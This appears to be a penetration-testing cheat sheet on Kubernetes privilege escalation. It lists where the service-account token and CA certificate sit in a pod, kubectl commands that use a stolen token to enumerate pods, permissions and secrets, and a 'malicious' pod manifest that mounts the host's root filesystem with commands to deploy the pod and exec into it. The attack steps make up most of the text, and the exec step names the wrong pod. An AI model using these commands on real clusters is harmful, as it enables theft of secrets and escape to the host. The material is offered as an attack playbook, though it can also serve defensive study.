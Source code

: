 ```yaml
---
title: "Kubernetes"
date: 2024-7-22
tags: ["Kubernetes", "container", "privesc"]
---
```


### Token Location

```console
/run/secrets/kubernetes.io/serviceaccount/token
```

### Certificate Location

```console
/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Basic Commands

```console
# List all namespaces
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get namespaces
```

```console
# Get user permissions in current namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> auth can-i --list
```

```console
# Get user permissions in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> auth can-i --list -n <NAMESPACE>
```

```console
# List all pods
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pods --all-namespaces
```

```console
# List pods in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pods -n <NAMESPACE>
```

```console
# Get YAML of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pod <POD_NAME> -o yaml
```

```console
# Get info of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> describe pod <POD_NAME> -n <NAMESPACE>
```

```console
# List secrets
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get secrets -n <NAMESPACE>
```

```console
# Get info of a secret
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> describe secret <SECRET_NAME> -n <NAMESPACE>
```

<small>*Ref: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)*</small>

---

### Abuse #1: Mount host's file system

#### 1. Create a Malicious YAML (Template)

```console
apiVersion: v1 
kind: Pod
metadata:
  name: alpine
  namespace: <NAMESPACE_NAME>
spec:
  containers:
  - name: test
    image: <IMAGE_NAME>
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

#### 2. Create a new pod

```console
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> apply -f test.yaml
```

#### 3. Execute

```console
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> exec test --stdin --tty -n <NAMESPACE>
```

```console
# Check host filesystem
cd /mnt/root/
```
